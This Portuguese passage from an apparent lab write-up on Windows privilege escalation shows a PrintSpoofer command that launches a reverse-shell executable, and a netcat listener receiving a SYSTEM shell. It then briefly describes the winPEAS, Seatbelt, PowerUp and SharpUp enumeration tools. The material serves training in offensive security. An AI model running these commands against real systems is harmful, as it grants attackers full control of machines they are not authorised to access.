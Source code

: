 agora utilizando a shell que temos como `nt authority\local service` vamos executar o comando `C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

```powershell
C:\Windows\system32>C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Dessa forma utilizando o `PrintSpoofer` conseguimos uma conexão reversa como `nt authority\system`:

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           23:32:49
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49842
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Para concluir o topico basta clicar no botão `Completed`.

---

## **<a id="18"> • Privilege Escalation Scripts</a>**

Nesse topicos vemos algumas ferramentas que podem automatizar o processo de escalada de privilégios. São elas:

- winPEASany.exe:
    > winPEASany.exe é um script que procura erros de configuração comuns do Windows Privilege Escalation. É um script do PowerShell que pode ser executado em uma máquina Windows sem nenhuma instalação prévia ou configuração de política de execução. Também é multiarquitetura, portanto pode ser executado em sistemas x86 e x64.

- Seatbelt.exe: 
    > O Seatbelt é uma ferramenta de pós-exploração executada no Windows e tenta enumerar informações de configuração do sistema e da rede que podem ser úteis para um invasor. É uma porta C# do projeto Seatbelt original, que foi escrito em PowerShell.

- PowerUp.ps1:
    > PowerUp é um script do PowerShell que verifica vetores comuns de escalonamento de privilégios do Windows. É um script do PowerShell que pode ser executado em uma máquina Windows sem nenhuma instalação prévia ou configuração de política de execução.

- SharpUp.exe:
    > SharpUp é uma versão C# do PowerUp. É uma versão de portabilidade em C# do projeto PowerUp original, que foi escrito em PowerShell.

---